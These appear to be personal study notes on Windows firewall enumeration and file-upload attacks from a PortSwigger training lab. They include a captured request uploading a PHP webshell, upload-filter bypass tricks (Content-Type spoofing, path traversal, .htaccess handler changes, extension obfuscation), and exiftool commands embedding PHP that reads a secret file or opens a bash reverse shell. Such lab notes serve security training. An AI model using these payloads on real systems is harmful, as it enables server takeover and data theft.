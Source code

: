 Firewalls
- check the netstat -ano to see what ports are open
- `netsh advfirewall firewall dump`
- `netsh firewall show state`
- `netsh firewall show config` - just keep these in mind, but these should be automated when looking at automated tools

## Burp Suite Notes

Example Image Upload POST Request:
```
POST /my-account/avatar HTTP/2
Host: 0a0e00a604e7b9e981067a4b00120099.web-security-academy.net
Cookie: session=s2YCbN4BxaVG3wnNJMH3ajYUVfKfLYTc
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------866603063390648708194728913
Content-Length: 519
Origin: https://0a0e00a604e7b9e981067a4b00120099.web-security-academy.net
Referer: https://0a0e00a604e7b9e981067a4b00120099.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------866603063390648708194728913
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

etc.
```

Exploits:
1. can change `Content-Type` to `application/pdf` or `image/jpeg` before uploading and then access how you would
2. can change `filename` to `..%2fwebshell.php` and then access from a different directory
	1. Example: instead of `$URL/files/avatars/webshell.php`, access from `$URL/files/webshell.php`
3. Upload an .htaccess file with this content in order to execute .fart files as php:
	1. `AddType application/x-httpd-php .fart`
4. Obfuscate the file type (remember to still call for exploit.php though):
	1. `exploit.php.jpg` (could be parsed as php depending on algorithm)
	2. `exploit.php.` (occasionally trailing .'s or spaces are stripped)
	4. `exploit%2Ephp` (in case the filename is decoded but only server side)
	5. `exploit.php;.jpg` (can cause discrepancies on what is considered the end of the file name)
	6. `exploit.php%00.jpg` (can cause discrepancies on what is considered the end of the file name)
	7. `exploit.p.phphp` (in case .php is stripped from the file)
5. Hide php code inside a jpg using exiftool: 
	1. This worked: `exiftool -Comment="<?php echo 'content here' . file_get_contents('/home/user/secret') . 'content here' ; ?>" image.jpg -o outfile.php`
	2. ```exiftool -Comment="<?php -r '\$sock=fsockopen(\"192.168.150.131\",80);\`/bin/bash <&3 >&3 2>&3\`;' ?>" image.jpg -o outfile.php```
	3. ^ Couldn't get this one working
	